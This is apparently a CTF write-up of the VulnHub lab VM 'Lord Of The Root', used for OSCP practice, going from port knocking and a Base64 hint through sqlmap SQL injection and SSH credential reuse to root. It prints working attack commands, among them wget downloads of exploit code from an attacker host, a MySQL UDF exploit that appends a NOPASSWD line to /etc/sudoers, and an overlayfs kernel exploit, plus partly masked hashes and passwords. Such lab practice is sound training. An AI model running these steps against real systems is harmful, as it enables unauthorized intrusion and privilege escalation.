

# [[VulnHub] Lord Of The Root: 1.0.1](https://www.vulnhub.com/entry/lord-of-the-root-101,129/)

**Date**: 10/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [exploit_sqli](https://github.com/7h3rAm/writeups/search?q=exploit_sqli&unscoped_q=exploit_sqli), [exploit_credsreuse](https://github.com/7h3rAm/writeups/search?q=exploit_credsreuse&unscoped_q=exploit_credsreuse), [privesc_kernel_overlayfs](https://github.com/7h3rAm/writeups/search?q=privesc_kernel_overlayfs&unscoped_q=privesc_kernel_overlayfs), [privesc_mysql_root](https://github.com/7h3rAm/writeups/search?q=privesc_mysql_root&unscoped_q=privesc_mysql_root), [privesc_mysql_udf](https://github.com/7h3rAm/writeups/search?q=privesc_mysql_udf&unscoped_q=privesc_mysql_udf)  

## Overview
This is a writeup for VulnHub VM [Lord Of The Root: 1.0.1](https://www.vulnhub.com/entry/lord-of-the-root-101,129/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


### Killchain



### TTPs
1\. `1337/tcp/http/Apache httpd 2.4.7 ((Ubuntu))`: [exploit_sqli](https://github.com/7h3rAm/writeups#exploit_sqli), [exploit_credsreuse](https://github.com/7h3rAm/writeups#exploit_credsreuse), [privesc_kernel_overlayfs](https://github.com/7h3rAm/writeups#privesc_kernel_overlayfs), [privesc_mysql_root](https://github.com/7h3rAm/writeups#privesc_mysql_root), [privesc_mysql_udf](https://github.com/7h3rAm/writeups#privesc_mysql_udf)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Thu Oct 10 14:06:38 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.lordoftheroot101/results/192.168.92.151/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.lordoftheroot101/results/192.168.92.151/scans/xml/_quick_tcp_nmap.xml 192.168.92.151
Nmap scan report for 192.168.92.151
Host is up, received arp-response (0.00035s latency).
Scanned at 2019-10-10 14:06:39 PDT for 5s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAJKVpy10olbGC8nI2MWPTGKXhT6VsZcRnCAjQhqcpe8hLZ4cXu33YaLzgHJF1cm0ebDTZNP55kkYx8iQLw4izWfw21R45GWEuFLa6gX7wsygffXlSP0jlGbnspYWZj9FkbqN8GOFnUsqvCDCcXDe69OlxGPhBiMxB1rxuoUZnxPZAAAAFQCDbd7sa658iDpIzFLRsbyEkgmvQwAAAIA4myZvSg9MIJQoio8r7Pu2Z7de6aMg6dooumuVPfbsvcb1ZpcnU1nnBcJe5sSof/eIZSqh+NFl3r04rVcNmEMNP+7liXhjGAQ4G0c95vAN+12V12vHdk2YXEO4Mj/VhQxI1AP/5XdiY4OI7vDVY6FGw+4gR+aarZIDjY67jpl//QAAAIAvQVESJOOiTImUdavfNImDDFo/8Ttw0Iq9OcAwuE3umJ6PSfjcTq5IODKQ1hHr8Qb/+7Q6+osumyd6ONOIuM9x8sWExOAlWrcGkZszDzBUb4tjWXdliHuxYds+qZjl3esaKbeW5v97Zf5RPYeUv7cWWxThqbVNehp+fsxAmhMhgw==
|   2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZnR9vNmnhJVAXLzEz9KbyuNunmOeZLgWAvEXrYL5PQUSnjV6r9quuRtcjxs26JAMkSr2GH0r8JEhYKQQBMdGe7j/qfN5gorUOykWv1R3v+4Blu5L4R+8v7pFrQnu7IrAbms9fOiiF0nCWs6dugDQ+4rBl+90WHbJ40s5f9L1akGBpYmuuT9gy7ULabvc6CYZ2+cCFVpkf/s8rc3z3OV0W5JNoENyXtyvuirQqQ4+xLVlyPFpBfmqx1mY1XOeY7qqN99/82Ti9JfNJwjWgINGTY0wWGuWJdYrxAiyL/F9/MPJyb/zEM9I2/ne+qUrJ1Jkpcl4eJ42UV7HUkUGpZXkb
|   256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFoWH4DDWVRbA1EqnCjoMMCx5bR9hiI5qTJIi+LGY9kWZQU4Y4D+MJQRoDBVd/ijYLAQ1HvW/MZIpjRCfUON6uU=
|   256 34:ec:16:dd:a7:cf:2a:86:45:ec:65:ea:05:43:89:21 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK8+Q9UBYlSuxYmR6fYF4W8Vv22fP15QxiCfpGk8JV2+
MAC Address: 00:0C:29:97:85:0D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 10 14:06:44 2019 -- 1 IP address (1 host up) scanned in 5.59 seconds

```

2\. We just have 1 open port, `22/tcp` and start there. Upon connecting we see a banner that hints at port knocking sequence `1,2,3`. We knock on these ports and find a new port, `1337/tcp`, open up on the target system:  
``` {.python .numberLines}
ssh root@192.168.92.151
                                                    .____    _____________________________
                                                    |    |   \_____  \__    ___/\______   \
                                                    |    |    /   |   \|    |    |       _/
                                                    |    |___/    |    \    |    |    |   \
                                                    |_______ \_______  /____|    |____|_  /
                                                            \/       \/                 \/
   ____  __.                     __     ___________      .__                   .___ ___________      ___________       __
  |    |/ _| ____   ____   ____ |  | __ \_   _____/______|__| ____   ____    __| _/ \__    ___/___   \_   _____/ _____/  |_  ___________
  |      <  /    \ /  _ \_/ ___\|  |/ /  |    __) \_  __ \  |/ __ \ /    \  / __ |    |    | /  _ \   |    __)_ /    \   __\/ __ \_  __ \
  |    |  \|   |  (  <_> )  \___|    <   |     \   |  | \/  \  ___/|   |  \/ /_/ |    |    |(  <_> )  |        \   |  \  | \  ___/|  | \/
  |____|__ \___|  /\____/ \___  >__|_ \  \___  /   |__|  |__|\___  >___|  /\____ |    |____| \____/  /_______  /___|  /__|  \___  >__|
          \/    \/            \/     \/      \/                  \/     \/      \/                           \/     \/          \/
  Easy as 1,2,3
  root@192.168.92.151's password:

knock 192.168.92.151 1,2,3
  PORT     STATE SERVICE
  22/tcp   open  ssh
  1337/tcp open  waste

```

  

  

  

3\. We see that the newly opened port is running a HTTP service. We explore it using a web browser. We find a Base64 encoded text within HTML source of the `robots.txt` page. Upon decoding it twice we find a directory path which leads to a login form:  
``` {.python .numberLines}
http://192.168.92.151:1337/robots.txt
  THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh

b64d THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
  Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!

b64d Lzk3ODM0NTIxMC9pbmRleC5waHA=
  /978345210/index.php

```

  

  

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp    |  ssh   |  OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
1337/tcp  |  http  |  Apache httpd 2.4.7 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
http://192.168.92.151:1337/robots.txt
http://192.168.92.151:1337/978345210/index.php
```
#### Users
``` {.python .numberLines}
ssh: smeagol
webapp: frodo, smeagol, aragorn, legolas, gimli
```

\newpage
## Phase #2: Exploitation
1\. We run `sqlmap` against this login form and dump the contents of the backend database. Within this dump we find credentials for five users:  
``` {.python .numberLines}
sqlmap -u "http://192.168.92.151:1337/978345210/index.php" --batch --forms --dump

```

  

  

2\. We check if any of these users have a local account on the target system and if they have reused their web application credentials for system login as well. We find that user `smeagol` has an account on the target system and has reused their password. This gives us a local interactive SSH access on the target system:  
``` {.python .numberLines}
ssh smeagol@192.168.92.151

```

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
smeagol@LordOfTheRoot> id
uid=1000(smeagol) gid=1000(smeagol) groups=1000(smeagol)
smeagol@LordOfTheRoot>  
smeagol@LordOfTheRoot> uname
Linux LordOfTheRoot 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
smeagol@LordOfTheRoot>  
smeagol@LordOfTheRoot> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:97:85:0d
      inet addr:192.168.92.151  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fe97:850d/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:1436389 errors:39 dropped:110 overruns:0 frame:0
      TX packets:691018 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:114236583 (114.2 MB)  TX bytes:109580367 (109.5 MB)
      Interrupt:19 Base address:0x2000
smeagol@LordOfTheRoot>  
smeagol@LordOfTheRoot> users
root
smeagol
```

\newpage
## Phase #3: Privilege Escalation
1\. While exploring the web root directory we find `mysql` credentials within the `login.php` file. This will be useful in next steps:  
``` {.python .numberLines}
cd /var/www
grep -nir mysql ./

```

  

2\. We find that `mysql` is running with elevated privileges. This opens the possibility of running the UDF exploit and as such we look for `lib_mysqludf_sys.so` file on the target system. This file is not found so we have to use an exploit to create one and use it from `mysql` shell (using credentials found in previous step):  
``` {.python .numberLines}
ps aux | grep -i mysql
locate lib_mysqludf_sys.so
cd /tmp
wget http://192.168.92.183:9999/1518.c

```

  

3\. We follow the steps mentioned within the exploit to compile and create the shared object file. We then connect to the `mysql` shell, load the shared object and map it to a custom function called `do_system`. This function can now be used to execute commands from within `mysql` shell with elevated privileges. We run a command to give all permissions to user `smeagol`:  
``` {.python .numberLines}
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
mysql -u localhost -u root -p
  use mysql;
  create table foo(line blob);
  insert into foo values(load_file('/tmp/1518.so'));
  select * from foo into dumpfile '/usr/lib/1518.so';
  create function do_system returns integer soname '1518.so';
    ERROR 1126 (HY000): Can't open shared library '1518.so' (errno: 0 /usr/lib/mysql/plugin/1518.so: cannot open shared object file: No such file or directory)
  select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
  create function do_system returns integer soname '1518.so';
  select do_system('echo "smeagol ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers');

```

  

  

  

  

4\. We can now exit from the `mysql` shell, check for user `smeagol`'s `sudo` privileges and switch to user `root`:  
``` {.python .numberLines}
sudo -l

```

  

5\. Another way to gain elevated privileges is to run the `overlayfs` exploit on the target system because it has a kernel compiled before `2015-12-26`:  
``` {.python .numberLines}
cd /tmp
wget http://192.168.92.183:9999/39166.c
gcc -o 39166 39166.c
./39166

```

  

  

6\. Once we have elevated privileges, we can view the contents of the `/root/Flag.txt` file to complete the challenge:  
``` {.python .numberLines}
cat /root/Flag.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$cQPCchYp$rWjOEHF47iuaGk/DQdkG6Dhhfm3.hTaNZPO4MoyBz2.bn44fERcQ23XCsp43LOt5NReEUjwDF8WDa5i1M........................
smeagol:$6$vu8Pfezj$6ldY35ytL8yRd.Gp947FnW3t/WrMZXIL7sqTQS4wuSKeAiYeoYCy7yfS2rBpAPvFCPuo73phXmpOoLsg5........................
```
### Credentials
``` {.python .numberLines}
webapp: frodo/iwilltaketh....., smeagol/MyPreciou....., aragorn/AndMyS...., legolas/AndM...., gimli/AndMy...
mysql: root/darksha...
ssh: smeagol/MyPreciou.....
```

## References
[+] <https://www.vulnhub.com/entry/lord-of-the-root-101,129/>  
[+] <https://github.com/Hamza-Megahed/CTFs/blob/master/lord-of-the-root/README>  
[+] <https://blog.geoda-security.com/2017/02/lord-of-r00t-walkthrough.html>  
[+] <http://www.jkcybersecurity.org/2016/11/vulnhub-lord-of-root-writeup.html>  
[+] <https://7ms.us/7ms-185-vulnhub-walkthrough-lord-of-the-root/>  
